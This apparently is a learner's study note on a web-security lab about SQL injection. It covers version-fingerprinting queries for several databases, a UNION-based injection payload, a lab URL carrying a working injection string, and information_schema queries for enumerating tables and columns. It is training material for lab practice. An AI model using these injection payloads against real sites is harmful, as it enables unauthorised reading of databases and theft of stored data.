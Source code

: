 # Examining the database in SQL injection attacks
To exploit SQL injection vulnerabilities, it's often necessary to find information about the database. This includes:

The type and version of the database software.
The tables and columns that the database contains.

## Querying the database type and version
You can potentially identify both the database type and version by injecting provider-specific queries to see if one works

The following are some queries to determine the database version for some popular database types:

### Database type	Query
Microsoft, MySQL	```SELECT @@version```
Oracle	```SELECT * FROM v$version```
PostgreSQL	```SELECT version()```
For example, you could use a UNION attack with the following input:

```' UNION SELECT @@version--```
This might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:
```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

## Challenge

In Shop, retrieve the version string from a Microsoft or MySQL database via the categories SQLi. 
https://0a16000704c7fa748121757300f70013.web-security-academy.net/filter?category=Tech+gifts%27%20UNION%20ALL%20SELECT%20NULL,version()%20--%20-

The solution payload didn't actually work in this case, I ended up using SQLmap to find payloads that did work and then made the above one on my own. 

# Listing the contents of the database
Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query information_schema.tables to list the tables in the database:

``` SELECT * FROM information_schema.tables```
This returns output like the following:

TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
This output indicates that there are three tables, called Products, Users, and Feedback.

You can then query information_schema.columns to list the columns in individual tables:

``` SELECT * FROM information_schema.columns WHERE table_name = 'Users'```
This returns output like the following:

TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
```
